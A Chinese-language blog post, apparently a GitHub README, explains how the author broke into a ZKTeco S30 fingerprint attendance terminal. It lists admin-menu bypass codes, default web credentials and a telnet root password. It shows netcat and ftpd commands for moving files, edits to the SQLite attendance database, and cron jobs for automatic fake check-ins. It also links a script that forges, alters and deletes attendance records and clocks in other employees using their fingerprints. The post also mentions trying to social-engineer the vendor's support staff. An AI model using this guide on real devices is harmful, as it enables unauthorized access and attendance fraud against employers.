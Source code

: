 # ZKTeco


## ZKTeco S30
经过网上查询可知，该中控机可以通过以下方式管理数据

- 机身自带管理功能
- RS232/485
- USB Host/client
- TCP/IP 客户端软件
- Web 3.0
- Telnet(开发人员)

下面来细说这几种方式：

#### 1. 机身自带管理功能
这里根据官方帮助<http://cn.zkteco.com/server01_detail/newsId=146.html>

##### 1.1 黑白屏机器
按菜单键输入9999>>>按“上”键>>>8888>>>再按“上”键，指纹机右上方会显示一个随机的数字，将这个数字记下来求和，并输入一个四位数，首（千）位是７，百位是随机的数和的首位，十位是0，个位是随机的数和的未位。如和是一位的个位也是0，再按“上”键和菜单键即可进入设置界面，这个过程不能太长，太长的话就失效了。进入设置菜单将管理员的权限清除掉即可。

##### 1.2 彩屏机器
彩屏须在1分钟内操作完成，记下机器时间，用计算器算9999-机器显示时间的差的平方，就是密码。例如：目前考勤机时间是22：55，那就是9999-2255=7744，接着算7744的平方，7744*7744=59969536 ，考勤机8888的管理密码就是59969536。按菜单键，在指纹机上输入8888>>>按OK键，输入计算出来的密码 OK。


#### 2. RS232/485 串口线连接
具体方法及参数可以看说明书
默认通讯密码：0 （也就是空密码）

#### 3. USB 连接方式
通过自带管理通过u盘把数据导入或导出。

#### 4. TCP/IP 客户端软件
通过软件来同步导出数据，行政貌似就是这么干的。
对了，官方说明传输数据并没有加密,但是在这动手脚，意义并不大。

#### 5. Web 3.0
给了一个 http 的方式，管理员可以通过web来查询考勤记录，员工貌似也可以登录查看自己的记录。
默认超管账号及密码

    user:administrator;
    password: 123456;

#### telnet
这个方式应该是开发人员用的，根据介绍得知，该机器基于 linux，如果我们拿下这个 telnet ，我们就获得了最高权限，那时候我们想怎么玩就怎么玩了。

______

## 思路
对过以上几种方式的分析，数据是记录在机器里，为了签到，我们只能通过telnet方式

    Trying 192.168.2.201...
    Connected to 192.168.2.201.
    Escape character is '^]'.

    Welcome to Linux (ZMM220) for MIPS
    Kernel 3.0.8 on an MIPS
    (none) login: 

简单的尝试后失败了.

根据<http://lcx.cc/index.asp?i=3568> 和<<http://blog.infobytesec.com/2014/07/perverting-embedded-devices-zksoftware_2920.html>

在评论区中翻到：
>telnet 密码貌似跟出厂时间及机器型号都是有相关的。这个是开发人员设定的。

我动了社会工程学，以公司管理员的身份向售后咨询密码，可惜到目前都没有回复我。

最后用 评论区中的`root solokey`成功进入到系统。

id 显然是 root，剩下的就自由发挥了。

-----

## 打卡及修改打卡时间
进入系统就是一阵乱找，在`/mnt/mtdblock`下找到我们想要的东西

    # ls
    CacheData.dat    data             lib              service
    app              drivers          mgcfg-mips       ssrrealtime.dat
    auto.sh          eerom.txt        miniguires       wav
    commonres        kill.sh          script

`data` 目录下`ZKDB.db`就是我们想要的。

### 1. 数据
#### 1.1 下载与上传
初步思路时，下载 db 文件本地,来打开研究，并修改，然后再上传替换。
下载好说，不是提供了一个web3.0么，把 db 复制到 web 目录下不就 Okay 了嘛。

上传呢，这个系统是个精简版的系统，仅集成了 busybox，命令少的可怜，scp 就不要想了。

不过找了命令，发现支持 ftp，tfpd，nc，所以这个就简单了。

##### ftp

    tcpsvd -vE 0.0.0.0 21 ftpd -w /mnt/mtdblock/

当然你也可以修改` /etc/inetd.conf `

但是这货上传的文件用vi打开后面有个`^M`,很是不舒服。

##### nc

发送端：

    cat log.sh| nc -l -p 6666
    或者nc -l  -p 6666 < log.sh                   # 有些版本不要在 -p

【监听6666端口，等待连接】（设发送端IP为 192.168.2.123 6666）

接收端：

    nc 192.168.2.123 6666 > log.sh

如上面的操作，即可将文件log.sh从发送端传送到接收端，保存为log.sh

##### tftp

这个我没测试，可以通过`/etc/inetd.conf`来启动

### 2. 数据及修改
这个db文件实际上就是 sqlite3，用`sqlitebrowser`打开发现，表的结构还是有点多，我只说关键的这两个表，

* ATT_LOG: 签到数据
* USER_INFO: 用户信息
* fptemplate10: 指纹信息

很幸运的在data目录下又找到`sqlite3_mips` 可执行程序，可以直接操作 db 文件，所以想修改数据简直是轻而易举了。

剩下的就是写个签到脚本了。

### 3. 自动签到
虽然精简但是还是提供了`crontab`这个定时任务，只是执行时会提示错误：

    crontab: chdir(/var/spool/cron/crontabs): No such file or directory

既然不存在，那我们就新建一个。

    mkdir -p /var/spool/cron/crontabs/

然后就可以用了，写个定时脚本，每天定时签到，永不迟到。

----

## 进阶玩法

1. 上传图片及声音文件，告别丑陋的出厂图，让机器更个性．
2. 写个api接口，手机签到.
3. 替换指纹数据，帮别人打卡（入职时一般会录两个指纹）

----

## 代码
github:<https://github.com/linsir/pyscripts/tree/master/zkteco_check_in>

使用方法：把`log.sh`上传到`/mnt/mtdblock/data`下执行即可。

```
Usage: 1. bash log.sh query Name: Query [name]'s user_id.
       2. bash log.sh checkin user_id: Check in for [user_id]'s user.
       3. bash log.sh checkout user_id: Check out for [user_id]'s user.
       4. bash log.sh change: Change checkin time of current month.
       5. bash log.sh change time (2016-06-06T16:03:50): Change checkin [time] of current month with time.
       6. bash log.sh del : Delete the [log_id]'s checkin log.
       7. bash log.sh help ID1 ID2 [fingerid]: Use [ID1] 's finger([fingerid]) help [ID2] to checkin.' 
```

all done,enjoy it .

----
##  参考地址：
1. <http://cn.zkteco.com/service01.html>
2. http://lcx.cc/?i=3568
